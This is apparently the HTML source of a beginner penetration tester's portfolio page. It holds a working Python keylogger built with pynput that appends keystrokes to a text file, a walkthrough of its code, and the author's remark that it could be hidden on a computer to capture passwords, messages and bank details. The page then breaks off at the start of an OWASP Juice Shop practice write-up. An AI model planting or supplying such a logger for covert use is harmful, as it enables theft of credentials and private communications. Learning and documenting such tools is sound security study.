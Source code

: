  <html>
  <head>
     <link rel="stylesheet" href="index.css">
  </head>
   <body>
    <Header id="section-Expo"> 
      <img class="img_Me" src="images/8626f4a9-f60a-4198-b2f0-02b9067687d1.jpeg" width="300"/>
     <div class="Expo-MeDiv">
      <p class="Expo_Me" >Hello, I am a young inspiring pen tester that wants to make a spot in industry, every since I gotten the idea of ethical hacking i've been try to learn and gain experience of looking and exporting vulnerabilities online, this portfolio will show what experience and skills I learned over the time in the internet, from trustrd websites that teaches you how to use kali Linux for pen testimg websites and files, to my cyber security class that teches me the basics of the subjet, to on hand experience of what I learned and trying to find vulnerabilities all over in the web, I will show my skills to anyone reading this page to prevail my career. </p>
     </div>
    </Header>

<div class="Projets_section">
   <h1 class="Projets_title">---Projets---</h1>
</div>

<div class="Projets_name">
 <h2>KeyLogger</h2>
 <h2>Made and Updated by: 3/18/2025--3/24/2025</h2>
</div>

<div class="Projets_imgAndDet">
 <div class="Code_keylog">
  <img src="images/keylogger-768x403.png" width="450" height="450" />
   <pre width="450" height="300">
    <code width="450" height="300"> 
   from pynput import keyboard
     
def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
        if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
            
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
   
  </code>
 </pre>
</div>

 <details>
  <h3>Technical Details</h3>
  <ul style="list-style-type:square">
   <li><strong>Programming Language:</strong>Python</li>
   <li><strong>Frameworks/Libraries:</strong>Pynput</li>
   <li><strong>Key Features:</strong>
    <ul style="list-style-type:square">
     <li>Cross-platform support (Windows, macOS, Linux)</li>
     <li>Simple API for listening to keyboard events</li>
     <li>Ability to simulate keyboard input</li>
    </ul>
   </li>
  </ul>
 </details>
</div>

<div class="Projets_Expo">
 <p>Before I start, I obtained this Keylogger from a YouTube tutorial, As a beginner, I try to learn from resources that are readily available to me. That way, I can understand how things work on my own without constantly needing to seek help. So I have added 2 new modifications to impove on less confusion in the log, but too the point. 
  <br>
  <br>
  This is a basic Keylogger that records keystrokes that have been pressed, this can be used of course to be hidden into a computer and log any sensitive information that was typed on said computer, like emails with passwords, private text messages, Bank info, and more. Here I will break down my simple code.</p>
</div>

<br>
<br>

<div class="code_display_A" width=150>
 <pre class="code">
  <code>
  def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
  </code>
 </pre>

<p class="code_Expo">Here is the start of the function where I set the parameter as <span class="word_code">Key</span>, then in the next line it take any key pressed to a string so it can be printed in the text file that is existing (or made its self if theres no text file with that same name) then adds a append tool here <span class="word_code">'a'</span> so any keystrokes will be added im the file, and it will used as <span class="word_code">logKey</span>.</p>
</div>

<br>

<div class="code_display_A" width=150>
 <p class="code_Expo">Now the <span class="word_code">'Try'</span> is used to handle exceptions that occur when getting a character representation of a key by using <span class="word_code">'key.char'</span>, except for special key, if it's is one it will not be added in the txt file and will give an error "Error getting char". </p>

 <pre class="code">
  <code>
    try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
  </code>
 </pre>
</div>

<br>

<div class="code_display_A" width=150>
  <pre class="code">
   <code>
    if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
   </code>
  </pre>

 <p class="code_Expo"> Now these last two blocks I personal added so theres less confusion on the txt file, because without them the letters will be jumbled up. 
  <br>
  <br>
  so both <span class="word_code">'if'</span> and <span class="word_code">elif</span> statements are used just in case the ENTER or SPACE key was pressed, it will still display the error line in the console log but will still skip a line or make space once pressed in the txt file.</p>
 </div>
 
<br>
<br>

 <div class="Projets_name">
 <h2>OWASP Juice Shop:⭐</h2>
 <h2>Made and Updated by: 4/21/2025--4/22/2025</h2>
</div>

<img src="images/OWASP JSP IMG/OWASP JSP.jpg" width="100%" height="250"/>

<p>OWASP Juice Shop is a web application that has built-in vulnerabilities covering the OWASP Top Ten and beyond, it is use for practice finding and exploiting web vulnerabilities in a safe, legal environment. 
<br>
<br>
It is used for training and learning web application security, penetration testing, and secure coding practices. I will document the level 1 difficulties to show what I already know and what I learned using OWASP Juice Shop, now a few things were new to me so I had to get some outside help, like AI for hints, websites that already cover the different CTF's, and Youtube videos explaining what to do, but that one of the point of Pen testing, going around the web to find and use different sources and tools to find the vulnerabilities and make them stronger.</p>

<details>
 <ul style="list-style-type:square">
  <li><strong>Application:</strong> Docker</li>
  <li><strong>Sources:</strong> 
   <ul style="list-style-type:square">
    <li> <a href="https://owasp.org/www-project-juice-shop/">owasp.org</a> </li>
    <li> <a href="https://github.com/juice-shop/juice-shop?tab=readme-ov-fi">github.com/juice-shop</a> </li>
   </ul>
  </li>
 </ul>
</details>

<h3 style="display: inline-block; border-bottom: 3px solid #ace34d; padding-bottom: 4px; color: #ace34d;">Injection</h3>
 <br>
  <h2 style="display: inline-block; border-bottom: 3px solid #ace34d; padding-bottom: 4px; color: #ace34d;">Login Admin: ⭐⭐</h2>
  
   <div class="code_display_A" width=150>
    <img src="images/OWASP JSP IMG/Login Admin.JPG">
  </body>
 </html>

